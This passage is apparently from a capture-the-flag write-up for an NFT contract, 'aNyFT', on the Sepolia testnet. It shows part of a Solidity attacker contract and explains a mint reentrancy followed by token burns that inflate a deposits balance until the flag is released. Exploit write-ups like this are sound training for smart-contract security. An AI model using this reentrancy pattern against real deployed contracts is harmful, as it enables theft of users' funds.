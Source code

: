 ```ts

    function sendToMe() public {
        for (uint256 i = 0; i < tokenIds.length; i++) {
            anyFT.burn(tokenIds[i]);
        }
    }

    function addTokenId(uint256 tokenId) internal {
        tokenIds.push(tokenId);
    }

    function getFlag(bytes16 token) public {
        anyFT.getFlag(token);
    }

    event ERC721Received(
        address indexed operator,
        address indexed from,
        uint256 indexed tokenId,
        bytes data
    );

    receive() external payable {

    }

}
```

We first call the mint function, which starts the reentrancy. Once we have called the aNyFT contract's mint function enough times, we call the sendToMe function which burns all the tokens we created. This will cause the deposits value to increase by 0.5 ether per token. Once we have 11 ether in our deposits value, we can call the getFlag function with our user token provided from the netcat port to get the flag.

Connecting to the Sepolia Test Net and aNyFT at the specified address, deploying our contract and calling the getFlag function we get `bctf{nft5_r_4_3v3r3y0n3}` using only `0.605 ether`!
